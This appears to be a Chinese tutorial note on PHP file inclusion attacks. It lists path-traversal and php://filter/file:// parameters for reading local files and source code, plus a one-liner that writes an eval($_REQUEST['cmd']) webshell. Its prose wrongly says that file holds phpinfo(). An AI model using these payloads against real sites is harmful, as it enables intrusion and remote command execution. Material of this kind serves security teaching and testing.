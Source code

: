 ​    @ 具有文件可读权限

​    提交参数，读取本地host 文件

​    [?path=c:\windows\System32\drivers\etc\hosts]

​    [?path=..\..\..\..\..\..\windows\System32\drivers\etc\hosts]

 

### *直接包含图片木马

​    可以利用文件包含漏洞直接包含图片木马

​    [?path=pingYjh.png]

​    使用菜刀或蚁剑连接

 

### *包含木马写shell

​    我们可以将如下代码写入图片中

​    <?php fputs(fopen('shell.php','w'),"<?php @eval($_REQUEST['cmd']);?>");?>

​    该段代码的含义是，在当前目录下创建一个名为[shell.php] 的文件，内容为[<?php phpinfo();?>]，当我们直接包含图片的时候，这段代码就会被执行了。

 

### *PHP 封装协议--访问本地文件

​    我们可以使用php 的file 协议访问本地系统文件，提交参数

​    [?path=file://c:\windows\System32\drivers\etc\hosts]

 

### *PHP 封装协议--传输PHP 文件

​    可以使用以下参数来传送任意PHP 文件

​    [?path=php://filter/read=convert.base64-encode/resource=./inc.php]

​    然后将获取到的字符串进行base64 解码即可

​    获取网站的源码

 

### *PHP 封装协议--执行PHP 命令

​    我们还可以利用PHP 的封装协议来执行PHP 命令

![img](71、文件包含漏洞/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MzI1MjIwNA==,size_16,color_FFFFFF,t_70-20201111215412841.png)

